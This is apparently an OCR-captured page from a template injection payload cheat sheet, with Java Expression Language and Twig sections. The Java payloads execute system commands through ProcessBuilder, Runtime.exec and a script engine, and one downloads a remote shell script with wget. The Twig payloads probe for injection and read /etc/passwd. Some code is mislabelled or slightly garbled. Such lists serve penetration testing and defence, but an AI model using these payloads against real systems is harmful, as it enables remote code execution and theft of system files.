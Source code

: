 ```java
${request.getAttribute("c").add("cmd.exe")}
${request.getAttribute("c").add("/k")}
${request.getAttribute("c").add("ping x.x.x.x")}
${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
${request.getAttribute("a")}

// Method using Reflection & Invoke
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

// Method using ScriptEngineManager one-liner
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

// Method using ScriptEngineManager
${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
```


## Twig

### Basic injection

```python
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{app.request.server.all|join(',')}}
```

### Template format

```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Arbitrary File Reading

```python
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
```
